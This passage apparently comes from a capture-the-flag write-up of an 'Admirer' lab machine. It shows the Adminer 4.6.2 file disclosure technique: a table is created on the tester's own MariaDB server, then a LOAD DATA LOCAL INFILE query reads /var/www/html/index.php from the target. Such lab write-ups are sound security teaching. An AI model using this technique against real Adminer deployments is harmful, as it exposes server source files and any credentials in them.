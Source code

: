![Login into MySQL](admirer_web-3.png)

According to this [article from Foregenix](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) there is a **File Disclosure Vulnerability** in Adminer version 4.6.2.

Creating a new table in our database:
```
MariaDB [(none)]> use admirer_bypass;

MariaDB [admirer_bypass]> CREATE TABLE new_table (OUTPUT TEXT(4096));
```

On **Adminer** there is a SQL command line, where the following command will be used to read _/var/www/html/index.php_:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE new_table FIELDS TERMINATED BY "\n"
```

![SQL command on Adminer](admirer_web-4.png)

The contents of _index.php_ are now in the table that we created:
```
MariaDB [admirer_bypass]> use admirer_bypass;

MariaDB [admirer_bypass]> select * from new_table;
```
